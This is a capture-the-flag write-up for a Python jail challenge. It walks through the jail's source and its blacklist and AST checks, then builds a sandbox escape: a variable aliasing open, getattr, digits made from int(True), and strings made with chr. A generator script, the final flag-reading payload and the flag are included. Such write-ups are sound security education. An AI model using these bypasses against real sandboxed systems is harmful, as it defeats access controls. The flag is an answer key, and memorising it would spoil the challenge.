 # PyJail

Although this problem has been solved by [my teammate](https://github.com/daffainfo/ctf-writeup/blob/main/1337UP%20LIVE%20CTF/PyJail/README.md) first, I would like to create this writeup anyway due to seemingly unorthodox solution.

## Problem
Can you break out of this python jail? 🐍

P.S. flag is at /flag.txt

Author: 0xM4hm0ud

jail.ctf.intigriti.io 1337


## Solution
### Source Code Analysis
Given the source code of the service :
```py
import ast
import unicodedata

blacklist = "0123456789[]\"\'._"
check = lambda x: any(w in blacklist for w in x)

def normalize_code(code):
    return unicodedata.normalize('NFKC', code)

def execute_code(code):
    try:
        normalized_code = normalize_code(code)
        parsed = ast.parse(code)
        for node in ast.walk(parsed):
            if isinstance(node, ast.Call):
                if isinstance(node.func, ast.Name):
                    if node.func.id in ("os","system","eval","exec","input","open"):
                        return "Access denied!"
            elif isinstance(node, ast.Import):
                return "No imports for you!"
        if check(code):
            return "Hey, no hacking!"
        else:
            return exec(normalized_code, {}, {})
    except Exception as e:
        return str(e)

if __name__ == "__main__":
    while True:
        user_code = input(">> ")
        if user_code.lower() == 'quit':
            break
        result = execute_code(user_code)
        print("Result:", result)
``` 

Based on the source code, we can understand some rules of this service :
1. No number, quotes (both single and double), dots, brackets, and underscores allowed
2. No module importing
3. No function calling that has the ID "os", "system", "eval", "exec", "input", and "open" (Function ID determined by `ast` module) 
4. Input is executed via `exec` with empty environment
5. Before input is processed, inputs are being normalized first (so no fancy characters allowed)

### Restriction Bypasses
First, given the jail used `exec`, we could execute more than one command using semicolon. Hence, this code is valid and executable fully in `exec` command.
```py
x = 1; x += 1; print(x)
```

Next, we found out that assigning a restricted function to a variable (remember, everything is an object in Python) isn't being detected as function calling, and calling that function also isn't returning the `Access Denied!` error, indicating that the function ID detection in (3) could be bypassed with :
```py
x = open; x("/flag.txt").read()
```

However, we can't still execute the `read()` due to restriction in dot character usage. However, `getattr` comes in handy to get the properties of an object (in this case the `read` function), and execute it.
```py
x = open; getattr(x("/flag.txt"), "read")()
```

### No String... No Number...
This is almost done, except of two small annoying restrictions; no quotes to form a string, and no numbers to build the string with `chr()` for example. However, we notice this behavior on Python :
```py
int(True) # returns 1
int(False) # returns 0
```

We can see that it's possible to create a number using `int()` function to a boolean value. After that, basically we could create every possible number from 0 - 9.
```py
nol = int(False) 			# 0
satu = int(True) 			# 1
dua = satu + satu			# 2
tiga = satu + dua			# 3
empat = satu + tiga			# 4
lima = satu + empat			# 5
enam = satu + lima			# 6
tujuh = satu + enam			# 7
delapan = satu + tujuh		# 8
sembilan = satu + delapan		# 9
```

Flatten them onto one line with semicolons :
```py
nol=int(False);satu=int(True);dua=satu+satu;tiga=satu+dua;empat=satu+tiga;lima=satu+empat;enam=satu+lima;tujuh=satu+enam;delapan=satu+tujuh;sembilan=satu+delapan;
```

After this, we could just add the numbers away to form a number, and then create a character (and eventually a string) with `chr()`! However, instead of adding it one by one, we combine the number as strings to be concatenated, and then convert it to number again and finally hit it with `chr()`. 
```py
str(sembilan) + str(tujuh)
# '97'

int(str(sembilan) + str(tujuh))
# 97

chr(int(str(sembilan) + str(tujuh)))
# 'a'
```

Since creating the payload to return a string character-by-character could be quite tiring, we created the script to automate the process.
```py
table = {
	"0": "nol",
	"1": "satu",
	"2": "dua",
	"3": "tiga",
	"4": "empat",
	"5": "lima",
	"6": "enam",
	"7": "tujuh",
	"8": "delapan",
	"9": "sembilan",
}

def generate(string):
	res = ""
	rest = []
	for s in string:
		s = str(ord(s))
		tmp = []
		for x in s:
			tmp.append(table[x])
		rest.append("+".join([f"str({_})" for _ in tmp]))
	res = ("+".join([f"chr(int({_}))" for _ in rest]))
	return res

print(f"nol=int(False);satu=int(True);dua=satu+satu;tiga=satu+dua;empat=satu+tiga;lima=satu+empat;enam=satu+lima;tujuh=satu+enam;delapan=satu+tujuh;sembilan=satu+delapan;x=open; print(getattr(x({generate('/flag.txt')}), {generate('read')})())")
```

Running the script, we got :
```py
nol=int(False);satu=int(True);dua=satu+satu;tiga=satu+dua;empat=satu+tiga;lima=satu+empat;enam=satu+lima;tujuh=satu+enam;delapan=satu+tujuh;sembilan=satu+delapan;x=open; print(getattr(x(chr(int(str(empat)+str(tujuh)))+chr(int(str(satu)+str(nol)+str(dua)))+chr(int(str(satu)+str(nol)+str(delapan)))+chr(int(str(sembilan)+str(tujuh)))+chr(int(str(satu)+str(nol)+str(tiga)))+chr(int(str(empat)+str(enam)))+chr(int(str(satu)+str(satu)+str(enam)))+chr(int(str(satu)+str(dua)+str(nol)))+chr(int(str(satu)+str(satu)+str(enam)))), chr(int(str(satu)+str(satu)+str(empat)))+chr(int(str(satu)+str(nol)+str(satu)))+chr(int(str(sembilan)+str(tujuh)))+chr(int(str(satu)+str(nol)+str(nol))))())
```

Copying to the jail terminal and we got the flag.

![flag](images/1.png)

<!-- this problem could be solved simply by breakpoint(), dumb me but ok i guess -->

### Flag
`INTIGRITI{Br4ak_br4ak_Br34kp01nt_ftw}` 
